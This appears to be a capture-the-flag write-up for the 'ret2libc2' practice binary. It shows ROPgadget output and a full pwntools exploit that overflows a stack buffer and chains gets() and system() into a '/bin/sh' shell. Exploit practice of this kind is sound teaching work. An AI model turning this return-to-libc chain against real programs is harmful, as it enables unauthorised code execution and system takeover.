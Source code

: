 

## ROPgadget

- 找得到`system`，但找不到`/bin/sh`

```bash
ROPgadget --binary ret2libc2 --string 'system'
Strings information
============================================================
0x0804831a : system
$ ROPgadget --binary ret2libc2 --string '/bin/sh'
Strings information
============================================================
```

- `pop ebx ; ret` gadget:

```bash
$ ROPgadget --binary ret2libc2 --only 'pop|ret' | grep 'ebx' 
0x0804872c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804843d : pop ebx ; ret
```
- `ROPgadget --binary ret2libc2 --only 'pop|ret'`: `'pop|ret'` gadget

```bash
$ ROPgadget --binary ret2libc2 --only 'pop|ret'
Gadgets information
============================================================
0x0804872f : pop ebp ; ret
0x0804872c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804843d : pop ebx ; ret
0x0804872e : pop edi ; pop ebp ; ret
0x0804872d : pop esi ; pop edi ; pop ebp ; ret
0x08048426 : ret
0x0804857e : ret 0xeac1

Unique gadgets found: 7
```



## Exploit

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')
context.log_level = "DEBUG"
gets_plt = 0x08048460  # .plt:08048460  jmp ds:off_804A010 # char *gets(char *s)
system_plt = 0x08048490  # .plt:08048490  jmp ds:off_804A01C # int system(const char *command)
pop_ebx = 0x0804843d # 用于抬栈，使得调用完gets后调用system
buf2 = 0x0804a080 # 在bbs段的没有引用的 char buf2[100]
payload = flat(['a' * (0x6c + 4), gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh') # 读取到buf2的字符串
sh.interactive()
```
